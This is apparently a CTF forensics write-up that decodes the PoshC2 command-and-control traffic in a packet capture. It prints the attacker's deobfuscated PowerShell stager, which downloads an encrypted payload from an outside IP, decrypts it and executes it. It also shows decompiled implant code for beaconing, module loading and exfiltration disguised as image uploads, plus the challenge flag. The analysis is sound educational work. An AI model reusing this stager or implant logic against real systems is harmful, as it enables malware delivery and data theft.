# Interstellar C2

## Scenario

We noticed some interesting traffic coming from outer space. An unknown group is using a Command and Control server. After an exhaustive investigation, we discovered they had infected multiple scientists from Pandora's private research lab. Valuable research is at risk. Can you find out how the server works and retrieve what was stolen?

## Given artifacts

A packet capture file

## Solving process

Inspecting the protocol hierarchy, it's not surprising that HTTP line-based text data dominates, as this challenge involves C2:



The nightmare starts here, the user somehow makes a request for a powershell script, let's export it for further analysis:



This script is not so terribly obfuscated, just the format string trick. I even don't need de-obfuscating yet to know it downloads another piece of data and decrypts with AES. The hard-coded key and initialization vector is bad, I don't know why the author chooses like that.

I use an online tool for de-obfuscating powershell script (but I think it can only handle easy script like this...):

```powershell
& "set-item" "vAriAble:qLz0so" ([Type]"SySTEM.io.FilEmode")
& "set-variable" l60Yu3 ([Type]"sYStem.SeCuRiTY.crypTOgRAphY.aeS")
& "set-variable" BI34 ([Type]"sySTEm.secURITY.CrYpTogrAPHY.CrypTOSTReAmmoDE")

${PTF} = "$env:temp\94974f08-5853-41ab-938a-ae1bd86d8e51"
& "import-module" "BitsTransfer"
& "start-bitstransfer" -Source "http://64.226.84.200/94974f08-5853-41ab-938a-ae1bd86d8e51" -Destination ${pTf}
${Fs} = & "new-object" "IO.FileStream" (${pTf}, (& "childitem" "VAriablE:QLz0sO").VALue::Op`en)
${MS} = & "new-object" "System.IO.MemoryStream"
${aes} = (& "gi" VARiaBLe:l60Yu3).VAluE::Create.Invoke()
${aEs}.Ke`y`size = 128
${KEY} = [Byte[]](0, 1, 1, 0, 0, 1, 1, 0, 0, 1, 1, 0, 1, 1, 0, 0)
${iv} = [Byte[]](0, 1, 1, 0, 0, 0, 0, 1, 0, 1, 1, 0, 0, 1, 1, 1)
${aES}.K`ey = ${KEY}
${Aes}.I`v = ${iV}
${cS} = & "new-object" "System.Security.Cryptography.CryptoStream" (${mS}, ${aEs}.Createdecryptor.Invoke(), (& "get-variable" bI34 -VaLue)::W`rite)
${fs}.Copyto.Invoke(${Cs})
${decD} = ${Ms}.Toarray.Invoke()
${CS}.Write.Invoke(${dECD}, 0, ${dECd}.Leng`th)
${DeCd} | & "set-content" -Path "$env:temp\tmp7102591.exe" -Encoding "Byte"
& "$env:temp\tmp7102591.exe"
```

Export that file from the PCAP:



Then decrypt with cyberchef, we get an executable program:



Well, cyberchef or the browser does not want me to download a malware, so I have no way but to zip it as a text file to bypass the AV, and the real file is indeed .NET assembly:



Take it to `dnSpy` for analysis, and it turns out to be a Posh C2 implementation, although some configurations may have been possibly stripped for a CTF challenge

To fully understand it, I think it should take us some days, but we will try to understand the C2 traffic and its encryption schema only. Upon inspecting the source code, I notice that they all stem from this AES-256-CBC with prepended IV decryption function, even though in some case they will optionally be wrapped with base64 or zip, and the payload's position in HTTP traffic also varies:

```c#
private static string Decryption(string key, string enc)
	{
		byte[] array = Convert.FromBase64String(enc);
		byte[] array2 = new byte[16];
		Array.Copy(array, array2, 16);
		string @string;
		try
		{
			SymmetricAlgorithm symmetricAlgorithm = Program.CreateCam(key, Convert.ToBase64String(array2), true);
			byte[] bytes = symmetricAlgorithm.CreateDecryptor().TransformFinalBlock(array, 16, array.Length - 16);
			@string = Encoding.UTF8.GetString(Convert.FromBase64String(Encoding.UTF8.GetString(bytes).Trim(new char[1])));
		}
		catch
		{
			SymmetricAlgorithm symmetricAlgorithm2 = Program.CreateCam(key, Convert.ToBase64String(array2), false);
			byte[] bytes2 = symmetricAlgorithm2.CreateDecryptor().TransformFinalBlock(array, 16, array.Length - 16);
			@string = Encoding.UTF8.GetString(Convert.FromBase64String(Encoding.UTF8.GetString(bytes2).Trim(new char[1])));
		}
		finally
		{
			Array.Clear(array, 0, array.Length);
			Array.Clear(array2, 0, 16);
		}
		return @string;
	}
```

First let's look at the very first request that the infected machine sends back to the C2 server:



We can trace it back to this code segment, it first steals some information about the infected machine:



And here is our `GetWebRequest()` function:

```c#
private static WebClient GetWebRequest(string cookie)
	{
		try
		{
			ServicePointManager.SecurityProtocol = (SecurityProtocolType.Tls | SecurityProtocolType.Tls11 | SecurityProtocolType.Tls12);
		}
		catch (Exception ex)
		{
			Console.WriteLine(ex.Message);
		}
		WebClient webClient = new WebClient();
		string text = "";
		string text2 = "";
		string password = "";
		if (!string.IsNullOrEmpty(text))
		{
			WebProxy webProxy = new WebProxy();
			webProxy.Address = new Uri(text);
			webProxy.Credentials = new NetworkCredential(text2, password);
			if (string.IsNullOrEmpty(text2))
			{
				webProxy.UseDefaultCredentials = true;
			}
			webProxy.BypassProxyOnLocal = false;
			webClient.Proxy = webProxy;
		}
		else if (webClient.Proxy != null)
		{
			webClient.Proxy.Credentials = CredentialCache.DefaultCredentials;
		}
		string value = Program.dfarray[Program.dfs].Replace("\"", string.Empty).Trim();
		if (!string.IsNullOrEmpty(value))
		{
			webClient.Headers.Add("Host", value);
		}
		webClient.Headers.Add("User-Agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.122 Safari/537.36");
		webClient.Headers.Add("Referer", "");
		if (cookie != null)
		{
			webClient.Headers.Add(HttpRequestHeader.Cookie, string.Format("SessionID={0}", cookie));
		}
		return webClient;
	}
```

**So for the first channel: SessionID cookie (implant → server)**

The mechanism is `base64( IV(16) ‖ AES(plaintext) )`

I can decrypt that packet here:



Well, that's just a test on the encryption schema, now to proceed we inspect from the main function first to know the flow:



It seems that the main thing `Sharp()` function does is to call `primer()`, we have inspected one half of `primer()`, now let's see what it does after stealing basic information about victim's machine:



The response for that initial GET request is decrypted with the aforementioned `Decrypt()` function. Then regex is employed to extract some fields that seem to configure later communication, including a new key

Note the old key is re-used in this call of `Decrypt()` function:



We need another `From Base64` layer to get the plaintext(`base64( IV(16) ‖ AES( base64(plaintext_utf8) ) )`):



Let's extract each field based on the palindromic regex:



There is also random garbage that is used to camouflage the traffic as image:



After calling `primer()`, the configurations will be applied using `ImplantCore()` :

```c#
private static void ImplantCore(string baseURL, string RandomURI, string stringURLS, string KillDate, string Sleep, string Key, string stringIMGS, string Jitter)
	{
		Program.UrlGen.Init(stringURLS, RandomURI, baseURL);
		Program.ImgGen.Init(stringIMGS);
		Program.pKey = Key;
		int num = 5;
		Regex regex = new Regex("(?<t>[0-9]{1,9})(?<u>[h,m,s]{0,1})", RegexOptions.IgnoreCase | RegexOptions.Compiled);
		Match match = regex.Match(Sleep);
		if (match.Success)
		{
			num = Program.Parse_Beacon_Time(match.Groups["t"].Value, match.Groups["u"].Value);
		}
		StringWriter stringWriter = new StringWriter();
		Console.SetOut(stringWriter);
		ManualResetEvent manualResetEvent = new ManualResetEvent(false);
		StringBuilder stringBuilder = new StringBuilder();
		double num2 = 0.0;
		if (!double.TryParse(Jitter, NumberStyles.Any, CultureInfo.InvariantCulture, out num2))
		{
			num2 = 0.2;
		}
		while (!manualResetEvent.WaitOne(new Random().Next((int)((double)(num * 1000) * (1.0 - num2)), (int)((double)(num * 1000) * (1.0 + num2)))))
		{
			if (DateTime.ParseExact(KillDate, "yyyy-MM-dd", CultureInfo.InvariantCulture) < DateTime.Now)
			{
				Program.Run = false;
				manualResetEvent.Set();
			}
			else
			{
				stringBuilder.Length = 0;
				try
				{
					string text = "";
					string cmd = null;
					try
					{
						cmd = Program.GetWebRequest(null).DownloadString(Program.UrlGen.GenerateUrl());
						text = Program.Decryption(Key, cmd).Replace("\0", string.Empty);
					}
					catch
					{
						continue;
					}
					if (text.ToLower().StartsWith("multicmd"))
					{
						string text2 = text.Replace("multicmd", "");
						string[] array = text2.Split(new string[]
						{
							"!d-3dion@LD!-d"
						}, StringSplitOptions.RemoveEmptyEntries);
						foreach (string text3 in array)
						{
							Program.taskId = text3.Substring(0, 5);
							cmd = text3.Substring(5, text3.Length - 5);
							if (cmd.ToLower().StartsWith("exit"))
							{
								Program.Run = false;
								manualResetEvent.Set();
								break;
							}
							if (cmd.ToLower().StartsWith("loadmodule"))
							{
								string s = Regex.Replace(cmd, "loadmodule", "", RegexOptions.IgnoreCase);
								Assembly assembly = Assembly.Load(Convert.FromBase64String(s));
								Program.Exec(stringBuilder.ToString(), Program.taskId, Key, null);
							}
							else if (cmd.ToLower().StartsWith("run-dll-background") || cmd.ToLower().StartsWith("run-exe-background"))
							{
								Thread thread = new Thread(delegate()
								{
									Program.rAsm(cmd);
								});
								Program.Exec("[+] Running background task", Program.taskId, Key, null);
								thread.Start();
							}
							else if (cmd.ToLower().StartsWith("run-dll") || cmd.ToLower().StartsWith("run-exe"))
							{
								stringBuilder.AppendLine(Program.rAsm(cmd));
							}
							else if (cmd.ToLower().StartsWith("beacon"))
							{
								Regex regex2 = new Regex("(?<=(beacon)\\s{1,})(?<t>[0-9]{1,9})(?<u>[h,m,s]{0,1})", RegexOptions.IgnoreCase | RegexOptions.Compiled);
								Match match2 = regex2.Match(text3);
								if (match2.Success)
								{
									num = Program.Parse_Beacon_Time(match2.Groups["t"].Value, match2.Groups["u"].Value);
								}
								else
								{
									stringBuilder.AppendLine(string.Format("[X] Invalid time \"{0}\"", text3));
								}
								Program.Exec("Beacon set", Program.taskId, Key, null);
							}
							else
							{
								string text4 = Program.rAsm(string.Format("run-exe Core.Program Core {0}", cmd));
							}
							stringBuilder.AppendLine(stringWriter.ToString());
							StringBuilder stringBuilder2 = stringWriter.GetStringBuilder();
							stringBuilder2.Remove(0, stringBuilder2.Length);
							if (stringBuilder.Length > 2)
							{
								Program.Exec(stringBuilder.ToString(), Program.taskId, Key, null);
							}
							stringBuilder.Length = 0;
						}
					}
				}
				catch (NullReferenceException ex)
				{
				}
				catch (WebException ex2)
				{
				}
				catch (Exception arg)
				{
					Program.Exec(string.Format("Error: {0} {1}", stringBuilder.ToString(), arg), "Error", Key, null);
				}
				finally
				{
					stringBuilder.AppendLine(stringWriter.ToString());
					StringBuilder stringBuilder3 = stringWriter.GetStringBuilder();
					stringBuilder3.Remove(0, stringBuilder3.Length);
					if (stringBuilder.Length > 2)
					{
						Program.Exec(stringBuilder.ToString(), "99999", Key, null);
					}
					stringBuilder.Length = 0;
				}
			}
		}
	}
```

So the victim server will send two kinds of request: a GET request with no Cookie as the previous one, used to ask whether the attacker has any commands, and POST requests to send actual execution result using the `Exec()` function:

```c#
public static void Exec(string cmd, string taskId, string key = null, byte[] encByte = null)
	{
		if (string.IsNullOrEmpty(key))
		{
			key = Program.pKey;
		}
		string cookie = Program.Encryption(key, taskId, false, null);
		string s;
		if (encByte != null)
		{
			s = Program.Encryption(key, null, true, encByte);
		}
		else
		{
			s = Program.Encryption(key, cmd, true, null);
		}
		byte[] cmdoutput = Convert.FromBase64String(s);
		byte[] imgData = Program.ImgGen.GetImgData(cmdoutput);
		int i = 0;
		while (i < 5)
		{
			i++;
			try
			{
				Program.GetWebRequest(cookie).UploadData(Program.UrlGen.GenerateUrl(), imgData);
				i = 5;
			}
			catch
			{
			}
		}
	}
```

The response containing commands is decrypted using the `Decryption()` function with the new key. If there are multiple commands, the data will begin with `multicommand`, followed by the command name and each command will be splitted using `!d-3dion@LD!-d` pattern

Using that knowledge to decrypt the first chunk of commands:





And the last command is just `!d-3dion@LD!-d00033loadpowerstatus`

Note that the `loadpowerstatus` command is **not** defined in the original program, that mean two huge base64 chunk must hold other program/extension that will be loaded. And they truly are, two new dll, I also add them to `dnSpy`:



So the first program that we have analyzed so far is just used for initial reconaissance only, the loaded `Core` and `PwrStatusTracker` contain a lot of dedicated module of many objects/tasks for post-exploitation phase. After spending some time investigating the source, I see the mentioned `loadpowerstatus` here:



Let's continue with the next chunk of command, we can see that a lot of following GET packets get a short response, even with no data, so that should either be beaconing or a signal of no command from attacker:



True commands re-appear from packet 5953, save its data and decrypt with cyberchef:



I have to zip it before downloading as the browser would block it if we downloadn suspicious data, this time 2 commands are executed, the first is still loadmodule, another module will be loaded, and the second one is this dump credentials command:



This is the new module , it supports mimikatz and other post-exploitation modules, which is called right in the second command:



And the last command sent from the attacker is to take a screenshot:



Now we should turn back to decrypt the POST request containing result and wrapped in PNG signature, as it would take us days if we try to understand more about the malware. The mechanism is `fake_image_header(1500) || IV(16) || AES_ciphertext(variable)`, the PNG fake header is 1500 bytes long:



Also notice that the `Exec()` function calls `Encryption()` with comp=True, meaning that the data is gzip compressed before AES, and we need to revert that process, decompress after AES decryption.

Let's construct a script:

```python
import base64
import gzip
from Crypto.Cipher import AES
import sys

def decrypt(file_path, output_path):
  with open(file_path, "rb") as infile:
    input_data=infile.read()
  aes_key=base64.b64decode("nUbFDDJadpsuGML4Jxsq58nILvjoNu76u4FIHVGIKSQ=")

  input_data=input_data[1500:]

  iv=input_data[0:16]
  ciphertext=input_data[16:]

  decryption_cipher = AES.new(aes_key, AES.MODE_CBC, iv=iv)
  output_data=decryption_cipher.decrypt(ciphertext)

  unzip_data=gzip.decompress(output_data)

  try:
    result=base64.b64decode(unzip_data.decode())
  except:
    result=unzip_data
  
  with open(output_path, "wb") as outfile:
    outfile.write(result)
  
if __name__=="__main__":
  file_path=sys.argv[1]
  output_path=sys.argv[2]
  decrypt(file_path, output_path)
```

Note that I use **try/except** block as the data is somehow not stable, if the command output is text, it can be encoded base64, and not in the case of binary data like image returned by screenshot command.

There are some POST requests, but only the last two hold the actual output:



Using `tshark` to extract payload:

```bash
tshark -r capture.pcapng -Y "frame.number==..." -T fields -e http.file_data | xxd -r -p > post_1
```

We need to turn it into bytes with `xxd` so that the script can happily handle, after decrypting, we will see the output of `mimikatz` command, and the screenshot as well:





Got the flag! (the author is a Vietnamese???)

## Summerize

Here is the re-contructed attack chain:

**Stage 1 — Initial Access (vn84.ps1)**

A heavily obfuscated PowerShell script using -f format string assembly and backtick splits to hide its logic. Once deobfuscated, it downloads an AES-128-CBC encrypted payload from `http://64.226.84.200/94974f08-5853-41ab-938a-ae1bd86d8e51` via BITS transfer, decrypts it using a hardcoded key/IV (00 01 01 00...), drops it to `%TEMP%\tmp7102591.exe` and executes it.

**Stage 2 — Implant Deployment (tmp7102591.exe)**

The dropped executable is a PoshC2 Sharp implant — a lightweight .NET dispatcher. On execution it hides its console window, disables certificate validation, then beacons to `http://64.226.84.200:8080` using a hardcoded AES-256 key to fetch the stage-2 configuration. The config contains the operator's C2 URLs, kill date, sleep interval, jitter, a new encryption key (NEWKEY) and image decoy library — all wrapped in palindromic regex sentinels.

**Stage 3 — Toolkit Delivery**
The first operator response delivers three tasks simultaneously:

- `loadmodule` → Core.dll (185KB): the full post-exploitation toolkit containing modules for Active Directory, credential harvesting, filesystem operations, process injection, screenshot capture, port scanning, WMI, and more
- `loadmodule` → PwrStatusTracker.dll (16KB): a session monitor using GetForegroundWindow, OpenInputDesktop and WTS events to detect when the user is active, locked or away
- `loadpowerstatus`: immediately activates session monitoring, giving the operator real-time awareness of keyboard presence

**Stage 4 — Post-Exploitation (C2 Loop)**

The implant runs a jittered beacon loop (13 seconds ± 20% based on SLEEP98001 13s), GETting tasks from randomly rotated URLs like /Kettie/Emmie/Anni?Theda=Merrilee?c. Commands are dispatched through the Core module's Main() method. Output is gzip compressed by Core, then further gzip compressed, AES-256-CBC encrypted and disguised as PNG image uploads in POST requests.

``Flag: HTB{h0w_c4N_y0U_s3e_p05H_c0mM4nd?}`

